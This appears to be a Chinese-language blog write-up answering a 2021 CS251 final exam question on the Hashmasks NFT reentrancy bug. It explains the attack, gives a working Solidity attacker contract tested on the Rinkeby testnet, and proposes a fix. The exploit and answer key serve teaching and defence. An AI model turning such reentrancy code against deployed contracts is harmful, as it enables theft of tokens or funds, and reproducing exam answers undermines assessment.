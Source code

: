 # CS251 - final 2021 - 问题 4

**问题4. [16 分]: Hashmasks 重入缺陷**

在第8课和第3节中，我们讨论了 solidity 重入缺陷。在这个问题中，我们将看一个有趣的现实世界的例子。考虑下面16384个NFT中使用的 solidity 代码片段。通过调用此NFT合约上的 `mintNFT()` 函数，用户一次最多可以铸造20个NFT。您可以假设所有内部变量都由构造函数正确初始化（未显示）。

<!--more-->

```solidity
  function mintNFT(uint256 numberOfNfts) public payable {
    require(totalSupply() < 16384, 'Sale has already ended');
    require(numberOfNfts > 0, 'numberOfNfts cannot be 0');
    require(numberOfNfts <= 20, 'You may not buy more than 20 NFTs at once');
    require(totalSupply().add(numberOfNfts) <= 16384, 'Exceeds NFT supply');
    require(getNFTPrice().mul(numberOfNfts) == msg.value, 'Value sent is not correct');
    for (uint256 i = 0; i < numberOfNfts; i++) {
      uint256 mintIndex = totalSupply(); // get number of NFTs issued so far
      _safeMint(msg.sender, mintIndex); // mint the next one
    }
  }

  function _safeMint(address to, uint256 tokenId) internal virtual override {
    // Mint one NFT and assign it to address(to).
    require(!_exists(tokenId), 'ERC721: token already minted');
    _data = _mint(to, tokenId); // mint NFT and assign it to address to
    _totalSupply++; // increment totalSupply() by one
    if (to.isContract()) {
      // Confirm that NFT was recorded properly by calling
      // the function onERC721Received() at address(to).
      // The arguments to the function are not important here.
      // If onERC721Received is implemented correctly at address(to) then
      // the function returns _ERC721_RECEIVED if all is well.
      bytes4 memory retval = IERC721Receiver(to).onERC721Received(to, address(0), tokenId, _data);
      require(retval == _ERC721_RECEIVED, 'NFT Rejected by receiver');
    }
  }
```

让我们证明 `_safeMint` 根本不安全（尽管它的名字是安全）。

**A)**    假设已经铸造了16370个NFT，那么 totalSupply()=16370。请解释恶意合约如何导致超过16384个NFT被伪造。攻击者最多可以造出多少个NFT？

提示：如果在调用地址 `onERC721Received` 是恶意的，结果会怎样？请仔细检查铸币回路，并考虑重入缺陷。

**答：** 在已经 mint 16370 个NFT基础上，调用 mingNFT 可传入的最大 numberOfNfts 为 14 可以通过 mintNFT 开始五行的限制，当上述合约在调用地址 `to` 上的 `onERC721Received` 函数时，这个函数可以再次调用上述 mingNFT 函数，此时，在原来已经 mint 一个的基础上，传入的 numberOfNfts 为 13 个可以通过 mintNFT 的限制，然后重复同样的过程，依次可以 mint 12， 11 直到 1，最后在函数内部，已经没有其他限制，故这些数量的 NFT 均可以被 mint，所以理论上总共可以 mint 的数量为 $14+13+\dots+2+1=105$。

**B)**    假设现在总供给的价值是16370，请写出实施对（a）部分进行攻击的恶意Solidity合约代码。

**答：** 

```solidity
contract Attacker is IERC721Receiver {
  Hashmasks hashmasks;

  constructor(address _hashmasksAddress) {
    hashmasks = Hashmasks(_hashmasksAddress);
  }

  function attack() public payable{
    {
      uint256 num = hashmasks.balanceOf(address(this));
      // console.log("num: ", num);
      if (num < 14) {
        // 16384 - 16370 = 14
        hashmasks.mintNFT{value: 14-num}(14 - num);
      }
    }
  }

  function onERC721Received(
    address _from,
    address _to,
    uint256 _tokenId,
    bytes memory _data
  ) external returns (bytes4) {
    attack();
    return msg.sig;
  }
}
```

其中 `attack` 设置为 *`payable` 是因为需要通过攻击合约调用 mintNFT 函数，需要发送一定数量的以太，可以选择在部署后先发送一定数量的以太到攻击者合约中，也可以将 `attack` 设置成 `payable`，在攻击的交易中发送以太到*

实验：在 Rinkeby 上部署，攻击者合约地址为 0xf1eb80Bb66A70E44d42B3ceC0bC18Ec28B5F2Ea8，实际攻击的交易：[https://rinkeby.etherscan.io/tx/0xb90496fd8789c3d1800df1bd3a571d019fb6158cbd521a9d05e57ad62460d15f](https://rinkeby.etherscan.io/tx/0xb90496fd8789c3d1800df1bd3a571d019fb6158cbd521a9d05e57ad62460d15f)，这个部署的合约中，NFT的价格设置为 1 wei，所以理论上只要发送 105 wei 到攻击这合约中，但是保险起见，发送了150wei，最后也可以看到攻击这合约中还剩下 45 wei。

**C)**    你会在前一页的代码中添加或更改哪一行Solidity来防止你的攻击?请注意，单个交易不应该铸造超过20个NFT。

**答：** 可以将 `_safeMint` 方法中， `_totalSupply++;` 这一行放到验证 NFT 的调用之后：

```solidity
  function _safeMint(address to, uint256 tokenId) internal virtual override {
    // Mint one NFT and assign it to address(to).
    require(!_exists(tokenId), 'ERC721: token already minted');
    _data = _mint(to, tokenId); // mint NFT and assign it to address to
    
    if (to.isContract()) {
      // Confirm that NFT was recorded properly by calling
      // the function onERC721Received() at address(to).
      // The arguments to the function are not important here.
      // If onERC721Received is implemented correctly at address(to) then
      // the function returns _ERC721_RECEIVED if all is well.
      bytes4 memory retval = IERC721Receiver(to).onERC721Received(to, address(0), tokenId, _data);
      require(retval == _ERC721_RECEIVED, 'NFT Rejected by receiver');
    }
	_totalSupply++; // increment totalSupply() by one
  }
```

这样，当合约被重入攻击时，由于 `_totalSupply` 还没有增加，因此在第二次进入 `mintNFT` 函数时 `mintIndex` 的值是第一次 mint 的值，会导致触发 `'ERC721: token already minted'` 这个错误，有效保证合约安全。

```solidity
    for (uint256 i = 0; i < numberOfNfts; i++) {
      uint256 mintIndex = totalSupply(); // get number of NFTs issued so far
      _safeMint(msg.sender, mintIndex); // mint the next one
    }
```

验证交易： https://rinkeby.etherscan.io/tx/0xa5f70a226c5fd64132eee800f8902ddb9b4ff562ff7f37820d11746fbde52acb

感谢 discord **yyczz#5837** 对于这个问题的指导。
